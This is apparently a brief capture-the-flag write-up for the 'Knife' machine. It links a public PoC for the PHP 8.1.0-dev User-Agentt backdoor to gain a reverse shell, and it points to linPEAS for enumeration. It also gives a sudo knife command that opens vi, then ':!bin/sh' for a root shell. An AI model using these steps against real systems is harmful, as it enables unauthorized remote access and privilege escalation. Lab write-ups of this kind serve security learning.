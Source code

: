 # Knife Write-Up

Easy

Tags: 
`PHP`
`reverse shell`
`linPEAS`
`knife tool`


## Intro

1. Use vuln in php-8.1.0-dev to set up reverse shell
2. Use linPEAS to search for possible paths to escalate privileges
3. Use knife to open vim as root

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Install backdoor

Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

[PoC php-8.1.0 backdoor rce github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

## Privilege Escalation

Search for possible paths to escalate privileges

[LinPEAS - Linux Privilege Escalation Awesome Script](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

/usr/bin/knife

Use knife to open vim as root

```
sudo knife data bag create 1 2 -e vi
```

```
:!bin/sh
```